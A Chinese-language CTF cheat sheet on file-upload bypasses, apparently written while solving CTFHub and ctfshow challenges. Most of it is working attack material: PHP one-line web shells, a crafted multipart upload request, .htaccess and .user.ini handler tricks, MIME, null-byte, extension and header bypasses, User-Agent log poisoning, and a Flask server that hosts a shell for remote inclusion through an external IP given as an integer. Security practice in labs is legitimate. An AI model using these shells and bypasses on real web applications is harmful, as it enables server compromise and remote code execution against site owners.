

# 文件上传

## 无验证

直接上传木马

```php
//phpinfo.php
<?php phpinfo();?>

//yijuhua.php
<?php @eval($_POST['attack']);?>
```

## 前端验证

先上传text.png,然后修改报文插入木马,filename="test.php"

```http
POST / HTTP/1.1
Host: challenge-82b991c55e737b08.sandbox.ctfhub.com:10800
Content-Length: 696
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://challenge-82b991c55e737b08.sandbox.ctfhub.com:10800
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyBe6v9tUKEDq61rR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge-82b991c55e737b08.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryyBe6v9tUKEDq61rR
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/png

ÿØÿà
<?php @eval($_POST['attack']);?>
------WebKitFormBoundaryyBe6v9tUKEDq61rR
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryyBe6v9tUKEDq61rR--
```

## .htaccess

先上传一个 `.htaccess` 文件，内容如下：

```apache
<FilesMatch "test" >
SetHandler application/x-httpd-php
</FilesMatch>
```

然后上传一个 php 文件，文件名是 `test`，内容如下：

```php
<?php @eval($_POST['attack']);?>
```

### web入门167

限制上传jpg

先上传.htaccess
将.jpg后缀文件当作php解析

```
AddType application/x-httpd-php .jpg
```

将木马文件后缀改为jpg，content-type改为jpeg即可成功上传

## MIME绕过

修改响应头`Content-Type`

```http
Content-Type: image/png
```

```plaintext
#text表明文件是普通文本
text/plain
text/html

#image表明是某种图像或者动态图(gif)
image/jpeg
image/png

#audio表明是某种音频文件
audio/mpeg
audio/ogg
audio/*

#video表明是某种视频文件
video/mp4

#application表明是某种二进制数据
application/*
application/json
application/javascript
application/ecmascript
application/octet-stream
```

## 00截断

使用%00截断有两个条件

- php版本小于5.3.4
- magic_quotes_gpc为off状态

 `0x00` ， `%00` ， `/00` 之类的截断，都是一样的，只是不同表示而已。
在url中 `%00` 表示ascll码中的 0  ，而ascii中0作为特殊字符保留，表示字符串结束，所以当url中出现`%00`时就会认为读取已结束。

比如：

```http
https://xxx.com/upload/?filename=test.txt      
此时输出的是test.txt 
```

加上 `%00`

```http
https://xxx.com/upload/?filename=test.php%00.txt    
此时输出的是test.php 
```

这样就绕过了**后缀限制**



## 双写后缀

`php`等关键词被过滤
再插入`php`，得到`pphphp`

## 文件头检查

### GIF89a

`GIF89a`是`GIF`的文件头

```http
------WebKitFormBoundaryiICJSz25CpAisqdY
Content-Disposition: form-data; name="file"; filename="phtml.php"
Content-Type: image/gif

GIF89a
<?php @eval($_POST['attack']);?>
------WebKitFormBoundaryiICJSz25CpAisqdY
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryiICJSz25CpAisqdY--

```

## 图片马

需要配合`文件包含`利用

`cmd`命令

```cmd
copy 1.png/b + 2.php/a 3.php
```

## 大小写绕过

windows对大小写不敏感，linux对大小写敏感

## 空格绕过

原理:windows等系统下，文件后缀加空格命名之后是默认自动删除空格。查看网站源代码发现过滤了大小写，没用过滤空格。

在php后缀添加空格 成功绕过

## 点绕过

原理:同空格绕过原理一样，主要原因是windows等系统默认删除文件后缀的.和空格，查看网站源码发现，没有过滤点。

在文件后缀添加个`.`成功绕过

## 黑名单绕过

```plaintext
php类型
php2 php3 php4 php5 phtml pht

ASP类型
asa cer cdx

ASPX类型
ascx ashx asac

JSP类型
jsp jspx jspf

```

## .user.ini绕过

.user.ini文件

```apache
auto_prepend_file=a.txt
```

a.txt文件

```php
<?php eval($_GET['a']);
```

```php
//输出当前目录所有文件名
a=print_r(glob("*"));

//输出flag.php文件内容
a=highlight_file("flag.php");

```

### web入门169 .user.ini日志包含

.user.ini日志包含

```
auto_append_file=/var/log/nginx/access.log
```

User-Agent插入php木马

```php
<?php @eval($_POST['attack']);?>
```

还需要上传一个index.php，内容随便写

然后在url/upload/利用木马

## 远程包含木马

### web162 远程包含 需要远程服务器

远程包含
需要远程服务器

在服务器上建立flask服务,在同目录下搞一个`233`文件的一句话木马

```python
from flask import Flask, send_file

app = Flask(__name__)

@app.route("/233")
def index():
    return send_file("233")

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=8886)
```

题目过滤`.`

将ip转换成为长整型

```python
def ip2long(ip):
    ip_list = ip.split('.')  
    result = 0
    for i in range(4):  
        result = result + int(ip_list[i]) * 256 ** (3 - i)
    return result

print(ip2long("8.217.215.183"))

输出：
148494263
```

上传.user.ini
注意检测png类型

```
GIF89a
auto_prepend_file=http://148494263:8886/233
```

访问`/upload/`执行命令
